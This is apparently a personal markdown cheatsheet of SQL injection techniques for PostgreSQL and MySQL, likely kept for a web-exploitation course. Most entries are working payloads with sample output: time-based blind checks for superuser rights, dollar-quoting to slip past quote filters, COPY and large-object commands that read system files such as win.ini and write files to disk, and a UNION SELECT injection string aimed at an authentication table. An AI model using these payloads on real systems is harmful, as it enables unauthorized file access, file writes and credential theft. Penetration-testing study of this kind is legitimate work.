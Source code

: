 ## SQL Command Cheatsheet

This section is under construction.

### PostgreSQL

- Get if superuser value
```sql
SELECT current_setting('is_superuser');
```

- Blind SQL check for superuser
```sql
SELECT (CASE WHEN (current_setting($$is_superuser$$)=$$on$$) THEN pg_sleep(3) ELSE pg_sleep(0) END);
```

- Write to FS with quotes not allowed
```sql
COPY (select $$awae$$) to $$C:\Windows\Temp\TestING.txt$$
```

- Read from a file into a table (Don't drop until you've read it)
```sql
CREATE temp table awae (content text);
COPY awae from $$c:\Windows\Temp\TestING.txt$$;
SELECT content from awae;
DROP table awae;
```

- b64 Decode / Convert to utf-8
```sql
COPY(SELECT convert_from(decode($$d3JpdGluZyB0aGlzIGRhdGEgdG8gbXkgbmV3IGZpbGUK$$,$$base64$$),$$utf-8$$)) to $${filename}$$;--+"
```

### Large Objects

- Create a LO
```sql
select lo_import('C:\\Windows\\win.ini', 1337);
```

- View `pg_largeobject` table
```sql
amdb=# select loid, pageno from pg_largeobject;
 loid | pageno
------+--------
 1337 |      0
(1 row)
```

- View LO data
```sql
amdb=# select loid, pageno, encode(data, 'escape') from pg_largeobject;
 loid | pageno |           encode
------+--------+----------------------------
 1337 |      0 | ; for 16-bit app support\r+
      |        | [fonts]\r                 +
      |        | [extensions]\r            +
      |        | [mci extensions]\r        +
      |        | [files]\r                 +
      |        | [Mail]\r                  +
      |        | MAPI=1\r                  +
      |        |
(1 row)
```

- Update LO data
```sql
amdb=# update pg_largeobject set data=decode('77303074', 'hex') where loid=1337 and pageno=0;
UPDATE 1
amdb=# select loid, pageno, encode(data, 'escape') from pg_largeobject;
 loid | pageno | encode
------+--------+--------
 1337 |      0 | w00t
(1 row)
```

- Export LO to new file
```sql
amdb=# select lo_export(1337, 'C:\\new_win.ini');
 lo_export
-----------
         1
(1 row)
```

- To delete a large object, we'll use:
```sql
amdb=# \lo_unlink 1337
lo_unlink 1337
amdb=# \lo_list
      Large objects
 ID | Owner | Description
----+-------+-------------
(0 rows)
```


### MySQL

- Configure verbose query logging
```
/etc/mysql/my.cnf
...
general_log_file        = /var/log/mysql/mysql.log
general_log             = 1
sudo systemctl restart mysql
```

- Get collation name (Set table name as necessary)
```sql
SELECT COLLATION_NAME 
FROM information_schema.columns 
WHERE TABLE_NAME = "__global_search" AND COLUMN_NAME = "name";
```

- Use COLLATE in a query
```cmd
scope=toby_scope" UNION SELECT 1,2,name COLLATE utf8mb4_general_ci,4,5 FROM __Auth# 
```
